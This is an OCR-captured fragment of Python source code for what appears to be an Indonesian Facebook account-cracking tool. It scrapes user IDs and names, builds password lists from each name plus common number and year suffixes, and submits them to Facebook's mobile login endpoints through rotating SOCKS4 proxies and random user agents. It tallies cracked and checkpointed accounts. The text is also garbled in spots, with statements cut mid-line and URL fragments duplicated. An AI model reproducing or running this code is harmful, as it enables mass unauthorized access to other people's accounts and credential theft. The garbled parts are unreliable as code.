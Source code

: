 set.find_all('a')   for g in bf2:    css = str(g).split('>')    if 'Lihat Postingan Lainnya</span' in css:     bcj = str(g).replace('<a href="','').replace('amp;','')     bcj2 = bcj.split(' ')[0].replace('"><img','')   tes = set.find_all('table')   for cari in tes:    liatnih = cari.text    spl = liatnih.split(' ')    if 'mengajukan' in spl:     idsiapa = re.findall('content_owner_id_new.\w+',str(cari))     idyou = idsiapa[0].replace('content_owner_id_new.','')     namayou = liatnih.replace(' mengajukan pertanyaan .','') len(frs)<3:     pwv.append(nmf)    else:     pwv.append(nmf)     pwv.append(frs+'123')     pwv.append(frs+'1234')     pwv.append(frs+'12345')     pwv.append(frs+'12345678')     pwv.append(frs+'123456789')     pwv.append(frs+'1122')     pwv.append(frs+'2022')     pwv.append(frs+'2001')     pwv.append(frs+'2004')     pwv.append(frs+'2002')     pwv.append(frs+'2003')     pwv.append(frs+'1999')     pwv.append(frs+'1996')     pwv.append(frs+'1998')     pwv.append(frs+'1997')     pwv.append(frs+'1995')     pwv.append(frs+'2000')     pwv.append(frs+'12')     pwv.append(frs+'1212')   if 'ya' in pwpluss:    for xpwd in pwnya:     pwv.append(xpwd)   else:pass   if 'mobile' in method:    pool.submit(crack,idf,pwv)   elif 'free' in method:    pool.submit(crackfree,idf,pwv)   elif 'touch' in method:    pool.submit(cracktouch,idf,pwv)   elif 'mbasic' in method:    pool.submit(crackmbasic,idf,pwv)   else:    pool.submit(crackmbasic,idf,pwv) print('') cetak(nel('\t[cyan]>>[green] Crack Selesai Ngab, Jangan Lupa Bersyukur[cyan] <<[white] ')) print(f'[{b}GOOD¢{x}]{h} ibo : {h}%s '%(ok)) print(f'{x}[{b}CP¢{x}]{k} ibo : {k}%s{x} '%(cp)) print('') print('>> CRACK DUBARA AKAITAWA ( Y/t ) ? ') woi = input('>> CHOSE : ') if woi in ['y','Y']:  back() else:  print(f'\t{x}>>{k} Good Bye{x} << ')  time.sleep(2)  exit()#--------------------[ METODE-B-API ]-----------------#def crack(idf,pwv): global loop,ok,cp bo = random.choice([m,k,h,b,u,x]) sys.stdout.write(f"\râ˜ ï¸� {P}[{b}{loop}{P}/{u}{len(id)}{P}]â€”{P}[{H}{ok}{P}]â€”{P}[{k}{cp}{x}]â€”[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}] "), sys.stdout.flush() ua = random.choice(ugen) ua2 = random.choice(ugen2) ses = requests.Session() for pw in pwv:  try:   nip=random.choice(prox)   proxs= {'http': 'socks4://'+nip}   ses.headers.update({'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})   p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5c63c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,}   koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])   koki+=' m_pixel_ratio=2.625; wd=412x756'   heade={'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}   po =